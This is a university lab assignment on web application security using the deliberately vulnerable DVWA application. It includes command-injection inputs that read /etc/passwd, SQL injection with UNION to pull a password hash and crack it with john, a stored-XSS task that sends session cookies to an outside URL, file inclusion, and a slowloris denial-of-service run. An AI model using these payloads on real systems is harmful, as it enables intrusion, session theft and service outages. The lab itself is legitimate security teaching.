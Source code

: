 # Lab 4
# Web application security

Log into the virtual machine as the user sui and start the configuration of the
network interface added in the third lab assignment by using DHCP:
``` 
$ sudo dhclient -v eth2
``` 

Write down the IP address that you got from the DHCP server. This is the
external address of your virtual machine that will be used to access the web
interface for the assignment.

Download and extract the files needed for the assignment:
```
$ wget http://public.tel.fer.hr/sui/zadatak4.tar.gz
$ tar xf zadatak4.tar.gz
$ cd zadatak4
$ sudo ./setup.bash
```

After executing the setup script you should be able to access the web interface
for the assgnment on the external IP address of the virtual machine:
```
http://_external_address_/dvwa
```
Login credentials:
```
u: admin
p: password
```

This assignment is focused on web application vulnerabilities (Commmand
Execution, SQL injection, XSS and File inclusion). The aim of the assignment is
to exploit vulnerabilities in order to learn about web application testing and
protection.

**NOTE:** While performing the assingment you can find help by using the `View
Source` and `View Help` buttons in the bottom left corner of the displayed web
page.

## 1) Command Execution

- Open the `Command Execution` page.

- Enter the following data: `1 | echo sui`

- If you see the keyword `sui` below the input form continue with the
  assignment. If not, check the security level in the `DVWA Security` menu. It
  should be set to `low`.

- You can also execute any command after the initial `1 |`. Multiple commands
  can be executed withe the `&` symbol. e.g.: `1 | ls`, `1 | pwd & whoami & ps`

- You need to get the contents of the file `/etc/passwd` and include it in the
  final report with the command used to extract it.

## 2) SQL injection

- Open the `SQL Injection` page.

- Try out the basic examples from the literature.

- The aim is to get the password hash of the user named Pablo Picasso. To fetch the
  password you need to know the internal structure of the database and name of
  the table which contains user data. This data can be fetched by using SQL
  commands in the injection form. For easier solving, here is the format of
  the `users` table:
```
    mysql> show columns from users;
    +------------+-------------+------+-----+---------+-------+
    | Field      | Type        | Null | Key | Default | Extra |
    +------------+-------------+------+-----+---------+-------+
    | user_id    | int(6)      | NO   | PRI | 0       |       |
    | first_name | varchar(15) | YES  |     | NULL    |       |
    | last_name  | varchar(15) | YES  |     | NULL    |       |
    | user       | varchar(15) | YES  |     | NULL    |       |
    | password   | varchar(32) | YES  |     | NULL    |       |
    | avatar     | varchar(70) | YES  |     | NULL    |       |
    +------------+-------------+------+-----+---------+-------+
```

- The MD5 hash of the user Pablo Picasso should be saved to a file on the
  virtual machine. Example for the `admin` user password hash:
```
$ echo "21232f297a57a5a743894a0e4a801fc3" > hashes.txt
```

- The password is hashed using the MD5 algorithm. Start the dictionary attack with
the `john` tool:
```
$ sudo john --format=raw-md5 hashes.txt
Loaded 1 password hash (Raw MD5 [128/128 SSE2 intrinsics 12x])
admin            (?)
```

- You need to mention all the commands that you used to get the password hash
  for the Pablo Picasso user. The final solution is the password for the Pablo
  Picasso user.  (Hint: for querying the data, use the keyword `UNION`)

## 3) XSS (Cross Site Scripting)

- Open the `XSS Stored` page. Here you can input scripts in the `Message` form,
  which are then stored in the `guestbook` table in the database.

- Try to execute simple javascript code. The script should load when the page is
  refreshed. (e.g. javascript command `alert()`)

- The aim is to readout the Cookie for the current user with the `alert()`
  command. The value of the variable `PHPSESSID` needs to be menitoned in the
  report in a single line in the following format:
```
PHPSESSID=f04m0i20nek10volimtep6e9irji5
```
    
- All cookies need to be sent by using the `GET` request as a parameter to the page 
  `http://public.tel.fer.hr/sui`. (e.g.
  `http://public.tel.fer.hr/sui?cookie=security=low;%20PHPSESSID=f04m0i20nek10volimtep6e9irji5`).
  Describe the whole procedure and provide scripts used.
    
- How would you protect an application from this type of vulnerability?

## 4) File inclusion

- Open the File Inclusion page and follow the instructions (you can change the
  HTTP `GET` `page` parameter)

- Output the `/etc/passwd/` file and add a screenshot of the screen with the
  data. Why can this be executed?

- How would you protect an application from this type of vulnerability?

## 5) Denial of Service attack

- This assignment is not performed on the DVWA web interface, but in the console
  of the virtual machine.

- In the `zadatak4` directory you have the `slowloris.pl` script.

- Start the script in order to prevent outside access to the web server. The
  script can be started on the localhost:
```
$ ./slowloris.pl -dns localhost
```

- How much time is needed to mount the attack? Describe how the slowloris tool
  works. (`http://ha.ckers.org/slowloris/`)

## Assignment results

You **need to send** the following data by email to
[sui@fer.hr](mailto:sui@fer.hr) after solving the assignment: 

- **report** on the subject in **PDF format** (should not exceed **1000 words**)
  which contains the procedure that you used to solve the assigment along with
  answers to assignment questions

## Tools for this assignment

- `john` - tool for cracking weak passwords.
- `slowloris` - tool for attacking apache http server.
